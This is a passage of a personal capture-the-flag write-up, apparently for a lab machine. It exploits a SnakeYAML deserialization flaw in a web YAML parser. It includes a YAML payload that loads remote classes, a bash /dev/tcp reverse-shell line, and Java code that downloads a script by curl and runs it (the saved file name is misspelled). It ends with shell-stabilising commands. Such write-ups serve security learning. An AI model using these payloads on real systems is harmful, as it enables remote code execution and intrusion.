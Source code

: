 # Foothold

- We can visit the web page and see that this is a yaml parser, when we put random data in it, we get redirected to a web page.
![[Pasted image 20210403055112.png]]
- When we try to parse something we get redirected to a web page, saying the feature is disabled due to security reasons. We can see that this can be an attack vector for us.
![[Pasted image 20210403055220.png]]
- We can see this blog post regarding it :https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858
- We need to `git clone https://github.com/artsploit/yaml-payload.git`
- So to check if the web app is vulnerable to this exploit, run a python server on a random directory and put in the payload
```
!!javax.script.ScriptEngineManager \[  
  !!java.net.URLClassLoader \[\[  
    !!java.net.URL \["http://10.10.14.5:8000"\]  
  \]\]  
\]
```
- We will get a valid response on our local server, and is looking to HEAD in META-INF. (The blog post would define the whole process.)
![[Pasted image 20210403060146.png]]
- We can use the exploit from the git-repo mentioned earlier.

## Creating revshell for upload
- First we need to create a rev shell to upload on the remote machine (Some testing suggested that one-liner revshells weren't working, or maybe I was doing it wrong)
```bash
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.5/9001 0>&1'" >> revshell.sh
```
- Move this file to yaml-payload/src folder.
- Spin up a python server in yaml-payload/src folder, so that the base directory has META-INF and the artsploit folder present.
- Add these lines to the exploit file
```java
import java.io.IOException;                                                                    [55/251]
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("curl http://10.10.14.5:8000/revshell.sh -o /tmp/rechsell.sh");
            Runtime.getRuntime().exec("bash /tmp/revshell.sh");
        } catch (IOException e) {
            e.printStackTrace();

... [snip] ...
```
- To execute this file send in the same request to the parser as earlier
![[Pasted image 20210403061422.png]]
- We get a revershell to tomcat. Make the shell interactive 
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
Ctrl+z
stty raw -echo; fg
{Press Enter Twice}
```

